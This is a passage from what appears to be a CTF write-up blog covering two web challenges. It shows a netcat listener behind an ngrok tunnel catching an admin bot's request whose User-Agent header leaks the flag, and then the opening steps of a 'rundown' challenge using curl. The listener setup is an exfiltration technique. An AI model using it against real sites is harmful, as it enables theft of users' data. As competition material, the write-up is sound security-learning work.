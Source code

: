 The request from the admin's browser looked like this:
{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/manual-review$ nc -nvlp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 127.0.0.1 53004 received!
GET /yaku HTTP/1.1
Host: 361c4f4977c5.ngrok.io
Upgrade-Insecure-Requests: 1
User-Agent: ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://127.0.0.1:1234/asdadasdasdasdasdasdasdadsasdasdads
Accept-Encoding: gzip, deflate, br
X-Forwarded-Proto: https
X-Forwarded-For: 34.89.215.57

^C
yakuhito@furry-catstation:~/ctf/unbr1/manual-review$
{% endhighlight %}

**Flag:** ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}

## rundown {#rundown}
{% highlight bash %}
A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.

Flag format: ctf{sha256} Goal: You have to discover a vulnerability in this simple web application and recover the flag.

The challenge was created by Bit Sentinel.
{% endhighlight %}

A great web challenge. Acessing the site with my browser only returned `APIv2 @ 2020 - You think you got methods for this?`, so I tried making a POST request with curl, saving the output to a file, and opening that file with my browser:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/rundown$ curl -X POST http://35.246.180.101:30994/ > a.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17003    0 17003    0     0   144k      0 --:--:-- --:--:-- --:--:--  144k
yakuhito@furry-catstation:~/ctf/unbr1/rundown$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
{% endhighlight %}

<div>